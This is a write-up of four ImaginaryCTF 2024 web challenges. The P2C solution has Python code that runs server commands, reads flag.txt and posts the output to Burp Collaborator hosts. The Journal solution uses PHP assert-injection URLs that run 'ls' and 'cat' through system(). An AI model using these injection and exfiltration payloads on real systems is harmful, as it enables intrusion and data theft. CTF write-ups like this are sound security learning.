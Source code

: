 ```yaml
---
title: 2024 Imaginary CTF Writeup
published: true
---
```

Here is a write-up I created for the Web track.
## P2C (Python To Color)

### Description

Welcome to Python 2 Color, the world's best color picker from python code!
The flag is located in `flag.txt`.

![](../assets/images/2024_imaginary_CTF/P2C_description.png)

### Source code

```python
from flask import Flask, request, render_template
import subprocess
from random import randint
from hashlib import md5
import os
import re

app = Flask(__name__)

def xec(code):
    code = code.strip()
    indented = "\n".join(["    " + line for line in code.strip().splitlines()])

    file = f"/tmp/uploads/code_{md5(code.encode()).hexdigest()}.py"
    with open(file, 'w') as f:
        f.write("def main():\n")
        f.write(indented)
        f.write("""\nfrom parse import rgb_parse
print(rgb_parse(main()))""")

    os.system(f"chmod 755 {file}")

    try:
        res = subprocess.run(["sudo", "-u", "user", "python3", file], capture_output=True, text=True, check=True, timeout=0.1)
        output = res.stdout
    except Exception as e:
        output = None

    os.remove(file)

    return output

@app.route('/', methods=["GET", "POST"])
def index():
    res = None
    if request.method == "POST":
        code = request.form["code"]
        res = xec(code)
        valid = re.compile(r"\([0-9]{1,3}, [0-9]{1,3}, [0-9]{1,3}\)")
        if res == None:
            return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")
        if valid.match("".join(res.strip().split("\n")[-1])):
            return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1]))
        return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")
    return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

### Short Answer

Python code injection + burpsuite collaborator exfiltration

Controllable indented value indicates that it is a python code injection vulnerability. But the output is parsed and goes to rgb valuer, so we need another way to exfiltrate command output.

The part that actually execute our command is as follows. It created a new file to store input.

```python
f.write("def main():\n")
f.write(indented)
```

Since it is python environment, we can simply write python code to post data to Burp Collaborator. Be sure to use urllib.request here because it’s part of standard python library comparing to requests. Then click **poll now** to get response.

### POC

```python
import urllib.request
import urllib.parse
import subprocess

output = subprocess.run(["ls"], capture_output=True, text=True).stdout.strip()
url = 'http://cyefjx3rcjlzq6jfcxjwztahr8xzlp9e.oastify.com'
data = urllib.parse.urlencode({'result': output}).encode()
req = urllib.request.Request(url, data=data) 
response = urllib.request.urlopen(req)
print(response.read().decode())
```
![](../assets/images/2024_imaginary_CTF/POC_burp.png)

- Read Flag

```python
import urllib.request
import urllib.parse

output = open("flag.txt").read()
url = 'http://iyklj33xcpl5qcjlc3j2zzanrex5l29r.oastify.com'
data = urllib.parse.urlencode({'result': output}).encode()
req = urllib.request.Request(url, data=data) 
response = urllib.request.urlopen(req)
print(response.read().decode())
```
![](../assets/images/2024_imaginary_CTF/POC_burp2.png)

<br>

## Journal
----

### Description

dear diary, there is no LFI in this app

```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";

```

### Short Answer

LFI via PHP's 'assert'

> https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert
> 

```url
http://journal.chal.imaginaryctf.org/?file=file1.txt%27%20and%20die(system(%22ls%20/%22))%20or%20%27
```

![](../assets/images/2024_imaginary_CTF/Journal1.jpg)

```url
http://journal.chal.imaginaryctf.org/?file=file1.txt%27%20and%20die(system(%22cat%20/flag-cARdaInFg6dD10uWQQgm.txt%22))%20or%20%27
```

![](../assets/images/2024_imaginary_CTF/Journal2.jpg)
  
<br>

## The Amazing Race

---

### Description

I've hidden my flag in an impenetrable maze! Try as you might, even though it's right there, you'll never get the flag!

![](../assets/images/2024_imaginary_CTF/TheAmazingRace_desc.png)

### Short Answer

web race condition

### Details

Each movement will send a request to backend database to check whether movement is permittted. However, the inconsistence between different  request may open a time window for duplicate movements to somewhere disallowed.

```python

def getCanMove(mazeId):
    con = connect("/tmp/mazes.db")
    cur = con.cursor()
    ret = cur.execute("SELECT up, down, left, right FROM mazes WHERE id = ?", (mazeId,)).fetchone()
    cur.close()
    con.close()
    return ret
```

Since post request implemented http1.1, we used last-byte sync attack.

```jsx
Burpsuite Repeater -> create group & duplicate tabs -> send group in parallel 
```
<br>

## Crystals

---

```jsx
version: '3.3'
services:
  deployment:
    hostname: $FLAG
    build: .
    ports:
      - 10001:80
```

![](../assets/images/2024_imaginary_CTF/Crystals.png)

### Short Answer
Abnormal characters in URL are not properly handled.

![](../assets/images/2024_imaginary_CTF/Crystals_burp.png)